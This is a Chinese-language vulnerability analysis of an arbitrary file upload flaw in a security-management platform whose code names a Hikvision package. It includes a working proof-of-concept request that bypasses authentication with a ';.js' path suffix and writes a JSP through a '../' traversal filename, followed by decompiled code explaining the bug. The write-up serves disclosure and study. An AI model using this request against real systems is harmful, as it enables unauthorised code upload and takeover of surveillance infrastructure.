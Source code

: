 

# 某综合安防系统 - 任意文件上传漏洞分析 - 先知社区

某综合安防系统 - 任意文件上传漏洞分析

- - -

# 0x00 简介

综合安防管理平台管理平台基于 " 统一软件技术架构" 理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、配置、管理和调度

# 0x01 漏洞概述

该产品存在任意文件上传历史漏洞

# 0x02 影响版本

历史版本

# 0x03 漏洞复现

先上 Poc

```plain
POST /center/api/files;.js HTTP/1.1
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 1ac225cc-bdbe-4176-b806-a9a7c796ee33
Host: xxxxxxxxxxxxxx
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------180188939909122941133151
Cookie: JSESSIONID=A0A01DAF36544051C724ABCCB20A0EA6
Content-Length: 286

----------------------------180188939909122941133151
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/hello.jsp"
Content-Type: application/octet-stream

hello
----------------------------180188939909122941133151--
```

然后访问：[http://192.168.43.72/clusterMgr/hello.jsp;.js](http://192.168.43.72/clusterMgr/hello.jsp;.js)  
[![](assets/1701678489-59be4a369ad5d3234e43c4506ad7cfc1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129155910-2e0f74ba-8e8d-1.png)

# 0x04 漏洞分析

CAS 配置文件如下：/bin/tomcat/apache-tomcat/webapps/center/WEB-INF/classes/cas-client.properties，对*.eot,*.woff,*.ttf,*.svg,*.gif,*.css,*.js,*.json 等文件不进行鉴权

```plain
cas.ignore.pattern=/,*.html,/login,*.eot,*.woff,*.ttf,*.svg,*.gif,*.css,*.js,*.json,/casLogin,*.ico,*.icon,*.png,*.map,/api/meta/qrcode,/api/session,/api/session/captcha,/api/locales,/api/meta,/api/menus,/api/users/*/password,/api/fileUpload/*,/center/api/fileUpload/*,/api/clientInstall/LatestVersion,/api/clientResourceInstall/LatestVersion,/center/api/clientInstall/LatestVersion,/center/api/clientResourceInstall/LatestVersion,/api/machines/*/steps,/api/verifyCodeImage,/api/encryptParam,/api/webLogin,/api/modifyPassword,/api/negotiation,/api/webMachines,/api/webDelMachines,/api/webAlerts,/api/webResources,/api/webMenus,/api/settings/firewalls/*,/api/installMachineList/*,/api/clientInstall/*,/api/task/*,/api/bic/*,/api/installation/*,/api/external/*,/api/logsOnline/*
```

文件上传函数，没有对 filename 进行过滤  
/bin/tomcat/apache-tomcat/webapps/center/WEB-INF/classes/com/hikvision/center/module/faq/controller/KnowledgeController.class

```plain
@RequestMapping(
    value = {"/files"},
    method = {RequestMethod.POST}
)
public Object uploadFile(@RequestParam(value = "file",required = false) MultipartFile file, HttpServletResponse response, @RequestParam(value = "upload",required = false) MultipartFile upload, HttpServletRequest request) throws IOException {
    if (request.getCharacterEncoding() == null) {
        request.setCharacterEncoding("UTF-8");
    }

    String CKEditor = request.getParameter("CKEditor");
    ResultData responseBean = new ResultData();
    String result;
    if (file == null) {
        if (upload == null) {
            if (StringUtils.isBlank(CKEditor)) {
                responseBean.setCode("0x0011775d");
                responseBean.setMsg(LocaleTextUtil.getErrorText(responseBean.getCode()));
                return responseBean;
            }

            result = "<script type=\"text/javascript\">window.parent.CKEDITOR.tools.callFunction('0', '/download1/xxx', '?');</script>";
            String languageType = LocaleTextUtil.getLocalLanguage();
            if ("zh_CN".equals(languageType)) {
                result = new String(result.replace("?", "请选择文件").getBytes("UTF-8"), "ISO-8859-1");
            } else {
                result = new String(result.replace("?", "choose file please").getBytes("UTF-8"), "ISO-8859-1");
            }

            response.getOutputStream().print(result);
            return null;
        }

        file = upload;
    }

    result = null;
    User user = BusLogUtil.getUser();
    if (user != null) {
        result = user.getUserId();
    }

    String filename = file.getOriginalFilename();
    this.logger.debug(HikLog.toLog(HikLog.message("uploadFile", new String[]{"username", "filename", "CKEditor"})), new Object[]{result, filename, CKEditor});
    JSONObject json = null;

    try {
        json = this.knowledgeService.uploadFile(file);
        this.operationRecordService.sendLogToCenter("uploadFile", true, "file", "", filename, "", "", "knowledgeBase", "", 0, "", "");
        if (StringUtils.isBlank(CKEditor)) {
            responseBean.setCode("0");
            responseBean.setMsg((String)null);
            responseBean.setData(json);
            return responseBean;
        } else {
            String result = "<script type=\"text/javascript\">window.parent.CKEDITOR.tools.callFunction('0', '?', '');</script>";
            result = result.replace("?", new String(json.getString("link").getBytes("UTF-8"), "ISO-8859-1"));
            response.setContentType("text/html;charset=utf-8");
            response.getOutputStream().print(result);
            return null;
        }
    } catch (Exception var14) {
        String code = "";
        if (var14 instanceof ProgramException) {
            code = ((ProgramException)var14).getCode();
                     } else {
                     code = "0x00137759";
                     }

                     this.logger.error(HikLog.toLog(HikLog.message("upload file error", new String[]{"errorCode", "error"})), code, var14);
                     this.operationRecordService.sendLogToCenter("uploadFile", false, "file", "", filename, "", "", "knowledgeBase", "", 1, "", code);
                     if (StringUtils.isBlank(CKEditor)) {
                     responseBean.setCode("0x00137759");
                     responseBean.setMsg(LocaleTextUtil.getErrorText(responseBean.getCode()));
                     responseBean.setData(json);
                     return responseBean;
                     } else {
                     String result = "<script type=\"text/javascript\">window.parent.CKEDITOR.tools.callFunction('0', '/download1/xxx', '?');</script>";
                     result = result.replace("?", LocaleTextUtil.getErrorText("0x00137759"));
                     response.getOutputStream().print(result);
                     return null;
                     }
                     }
                     }
```

KnowledgeServiceImpl#uploadFile，直接拼接文件名 filename

```plain
public JSONObject uploadFile(MultipartFile file) {
        String uuid = UUID.randomUUID().toString();
        String filename = null;

        try {
            filename = new String(file.getOriginalFilename().getBytes(System.getProperty("sun.jnu.encoding")), "UTF-8");
        } catch (UnsupportedEncodingException var9) {
            filename = file.getOriginalFilename();
        }

        String resourcePath = AddressUtil.getResourcePath() + File.separator + "resource" + File.separator + uuid;
        File resourceFile = new File(resourcePath);
        if (!resourceFile.exists()) {
            resourceFile.mkdirs();
        }

        JSONObject json = new JSONObject();

        try {
            file.transferTo(new File(resourcePath + File.separator + filename));
        } catch (Exception var8) {
            this.logger.error(HikLog.toLog(HikLog.message("upload file fail", new String[]{"e"})), var8);
            throw new ProgramException("0x00137759");
        }

        json.put("id", uuid);
        json.put("filename", filename);
        String link = AddressUtil.getFAQResourceUrl() + "/resource/" + uuid + "/" + filename;
        link = link.replace("\\", "/");
        json.put("link", link);
        return json;
    }
```

我们知道，Spring 在处理 url 时，removeSemicolonContentInternal 方法，主要的功能是

1.  移除所有的分号
2.  移除分号后面直到下一个斜杠”/”之间的所有字符

拼接的/center/api/files;.js 可以绕过鉴权，同时经过 removeSemicolonContentInternal 方法 ==》得到/center/api/files，分发到正确的路由，导致文件上传

# 0x05 修复方式

联系官方打补丁
